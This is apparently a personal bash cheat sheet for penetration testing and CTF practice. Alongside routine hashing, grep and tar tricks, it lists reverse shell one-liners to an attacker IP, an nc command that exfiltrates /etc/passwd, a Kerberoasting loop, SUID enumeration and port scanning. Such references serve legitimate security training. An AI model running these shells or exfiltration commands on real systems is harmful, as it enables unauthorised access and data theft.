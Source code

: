 # bash

### find SUID & SGID executables

`find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null`

### diff a file hash with its published value

`diff <(shasum -a 256 /path/to/file.ext) <(echo "published_sha256_value")`

use something like `... | sed 's/ .*$//'` to strip the extraneous info from the shasum cmd. Add info to the end of the published value to test.

`diff <(shasum -a 256 /path/to/file.ext | sed 's/ .*$//') <(echo "published_sha256_value")`

### carve a range of files by exact beginning and end

`ls -lh | grep "some_logs.log" | grep -E "1[3-9].gz|2[0-6].gz"`

Lists only `some_logs_13.gz` to `some_logs_26.gz`. Pipe that into whatever to do whatever.

### find hashes (hex) from output

`grep -a [a-f0-9]\{32\}`

Pipe output from things like `strings` here to finds hashes. The above will work for all hashes that are 32 characters or greater (md5, sha256, etc). Not perfect; will catch any string that matches the pattern, not just hashes. Adapt as needed. To find sha256 you could do

`grep -a [a-f0-9]\{64\}`

### reverse shell

`bash -i >& /dev/tcp/<attacker ip>/<listening port> 0>&1`

or if no `-e` like in `www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin`

`mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc attacker ip listening port > /tmp/f`

or

`rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.2.53.28 7777 >/tmp/f`

### do things to entires in IPs.txt
`for ip in `cat ips.txt`; do md5sum $ip; done >> something.txt`

### ippsec's scanner
```bash
#!/bin/bash
# by Ippsec https://www.youtube.com/watch?v=kE36IGAU5rg

for i in $(seq 2 225); do
    ping -c 1 -W 1 172.20.0.$i 1>/dev/null 2>&1
    if [[ $? -eq 0 ]];  then
          echo "172.20.0.$i - Online"
    fi
done
```
### grep for a string recursively in a dir
```bash
grep -r --include "*.h" "get_return_address" .
# --include "*.h" --> search files ending in .h
```
### exfil /etc/passwd (OR ANYTHING) with nc
```bash
# set up listner on attack box, port 31337. Direct output to exfil.txt
nc -nvlp 31337 > exfil.txt
# on the target, use
nc <attacker_ip_addr> 31337 < /etc/passwd # replace /etc/passwd with whatever file you want to try
```

### if your tool can't handle cidr notation, do it the hard way (ex: is a 10.10.0.0/16)
```bash
for i in $(seq 1 255); do echo "10.10.$i.1-255"; done | tr "\n" ","
```
### Mount a CIFS share with your Kerberos ticket on Linux 
```bash
sudo mount -t cifs -o "sec=krb5,cruid=$UID,user=Administrateur,domain=http://FOO.BAR" //AD1.FOO.BAR/C$ /mnt/test
```
### tar and untar a directory
```bash
tar -zcvf archive.tar.gz directory/;
tar -zxvf archive.tar.gz
```
### impacket scripts using a file containing a list of users (GetUserSPNs as an example)

```bash
for i in $(cat ~/path/to/user.list); do echo $i; ./GetUserSPNs.py -request -dc-ip 10.10.xx.xxx -no-pass -k domain.name/$i; sleep 5; done
```
### python3 pty
```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
CTRL-z
bg
stty raw -echo
fg
```

### Find files recursively in a directory
```bash
find . -ls -type f
```

### nc port scanner only show success and banner (if present)
```bash
echo "" | nc -nvw3 172.16.1.20 20-4000 2>&1 | grep -A 1 succeeded
```
### find SUIDs
```bash
find / -perm -u=s -type f 2>/dev/null
```
### easy parse through a large file with just one line; ctf-y
```bash
cat eBQRhHvx | tr " " "\n" | sort | uniq | less
```
